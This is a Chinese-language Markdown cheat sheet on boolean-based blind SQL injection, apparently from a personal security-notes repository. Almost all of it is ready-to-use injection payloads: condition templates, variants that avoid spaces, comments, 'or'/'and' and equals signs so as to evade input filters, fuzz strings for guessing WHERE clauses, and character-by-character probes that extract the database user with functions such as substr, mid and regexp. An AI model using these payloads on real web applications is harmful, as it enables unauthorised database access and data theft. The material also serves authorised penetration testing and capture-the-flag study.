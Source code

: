

#### bool盲注

- 盲注的时候一定注意，MySQL4之后大小写不敏感，可使用binary()函数使大小写敏感。

- ##### 布尔条件构造

  ```sql
  //正常情况
   'or bool#
   true'and bool#
       
   //不使用空格、注释
   'or(bool)='1
   true'and(bool)='1
       
   //不使用or、and、注释
   '^!(bool)='1
   '=(bool)='
   '||(bool)='1
   true'%26%26(bool)='1
   '=if((bool),1,0)='0
       
   //不使用等号、空格、注释
   'or(bool)<>'0
   'or((bool)in(1))or'0
       
   //其他
   or (case when (bool) then 1 else 0 end)
  ```

- 有时候where字句有括号又猜不到SQL语句的时候，可以有下列类似的fuzz

  ```sql
   1' or (bool) or '1'='1
   1%' and (bool) or 1=1 and '1'='1
  ```

- ##### 构造逻辑判断

  - 逻辑判断基本就那些函数：

    ```
      left(user(),1)>'r'  
      right(user(),1)>'r'  
      substr(user(),1,1)='r'  
      mid(user(),1,1)='r' 
          
      //不使用逗号 
      user() regexp '^[a-z]'
      user() like 'root%'
      POSITION('root' in user())
      mid(user() from 1 for 1)='r'
      mid(user() from 1)='r'
    ```
